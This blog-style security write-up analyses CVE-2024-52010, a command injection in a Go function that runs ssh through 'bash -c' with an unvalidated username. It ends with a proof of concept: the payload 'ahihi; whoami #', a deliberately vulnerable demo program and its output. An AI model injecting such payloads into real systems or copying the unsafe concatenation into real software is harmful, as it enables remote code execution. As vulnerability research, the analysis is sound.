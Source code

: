 ```yaml
---
layout: post
title: CVE-2024-52010 OS Command Injection
date: 2024-11-14
categories: ["1-Day-Analysis", "Golang", "CVE-2024-52010"]
---
```


# Sumary

OS Command Injection is vulnerability allow attack can excute command of os on the application. This is critical vulnerability because attacker can RCE system and take control system. 
In the CVE-2024-52010, application use golang and run command ssh to perform ssh to the system. However, variable `username` is input but not validate and used for user when remote. Vulnerability at here, attacker can insert command of os in to username and excute command.

# Analysis Code

I have a function

```
func (i *Instance) CreateNewConnection(listenPort int, username string, remoteIpAddr string, remotePort int) error {
	//Create a gotty instance
	connAddr := remoteIpAddr
	if username != "" {
		connAddr = username + "@" + remoteIpAddr
	}
	configPath := filepath.Join(filepath.Dir(i.ExecPath), ".gotty")
	title := username + "@" + remoteIpAddr
	if remotePort != 22 {
		title = title + ":" + strconv.Itoa(remotePort)
	}

	sshCommand := []string{"ssh", "-t", connAddr, "-p", strconv.Itoa(remotePort)}
	cmd := exec.Command(i.ExecPath, "-w", "-p", strconv.Itoa(listenPort), "--once", "--config", configPath, "--title-format", title, "bash", "-c", strings.Join(sshCommand, " "))
	cmd.Dir = filepath.Dir(i.ExecPath)
	cmd.Env = append(os.Environ(), "TERM=xterm")
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	go func() {
		cmd.Run()
		i.Destroy()
	}()
	i.tty = cmd
	i.AssignedPort = listenPort
	i.RemoteAddr = remoteIpAddr
	i.RemotePort = remotePort

	//Create a new proxy agent for this root
	path, err := url.Parse("http://127.0.0.1:" + strconv.Itoa(listenPort))
	if err != nil {
		return err
	}

	//Create new proxy objects to the proxy
	proxy := reverseproxy.NewReverseProxy(path)

	i.conn = proxy
	return nil
}
```

You see input of `CreateNewConnection` function include: listenPort, username, remoteIpAddr, remotePort. In there, username and remoteIpAddr is string and perform concatenate string. 

```
connAddr := remoteIpAddr
	if username != "" {
		connAddr = username + "@" + remoteIpAddr
	}
```

After, code prepare for command ssh to perform ssh to remoteIpAddr.

```
sshCommand := []string{"ssh", "-t", connAddr, "-p", strconv.Itoa(remotePort)}
```

At here, there is not any validate for string `connAddr`. And vulnerability will happen at `cmd := exec.Command(i.ExecPath, "-w", "-p", strconv.Itoa(listenPort), "--once", "--config", configPath, "--title-format", title, "bash", "-c", strings.Join(sshCommand, " "))`

# Exploit 

To the exploit, i have a payload with input for username: 

```
root; whoami ;
```

and remoteIpAddr = 127.0.0.1. Finnaly, connAddr = `root; whoami @127.0.0.1`.

I perform rewrite code with payload and demo vulnerability:

```
package main

import (
	"fmt"
	"os"
	"os/exec"
	"path/filepath"
	"strconv"
	"strings"
)

type Instance struct {
	ExecPath     string
	AssignedPort int
	RemoteAddr   string
	RemotePort   int
}

func (i *Instance) CreateNewConnection(listenPort int, username string, remoteIpAddr string, remotePort int) error {
	connAddr := remoteIpAddr
	if username != "" {
		connAddr = username + "@" + remoteIpAddr
	}

	title := connAddr
	if remotePort != 22 {
		title = title + ":" + strconv.Itoa(remotePort)
	}

	sshCommand := []string{"ssh", "-t", connAddr, "-p", strconv.Itoa(remotePort)}
	fullCommand := strings.Join(sshCommand, " ")

	cmd := exec.Command("bash", "-c", fullCommand)
	cmd.Dir = filepath.Dir(i.ExecPath)
	cmd.Env = append(os.Environ(), "TERM=xterm")
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr

	fmt.Printf("Executing command: %s\n", fullCommand)

	err := cmd.Run()
	if err != nil {
		return err
	}

	return nil
}

func main() {
	instance := Instance{ExecPath: "/bin/bash"}
	
	err := instance.CreateNewConnection(8080, "ahihi; whoami #", "127.0.0.1", 22)
	if err != nil {
		fmt.Println("Error:", err)
	}
}

```

After, i run with command `go run main.go` and get result

```
ubuntu@ip-172-31-22-90:~/Research/Go/oscommand$ go run main.go 
Executing command: ssh -t ahihi; whoami #@127.0.0.1 -p 22
Pseudo-terminal will not be allocated because stdin is not a terminal.
ssh: Could not resolve hostname ahihi: Temporary failure in name resolution
ubuntu
```



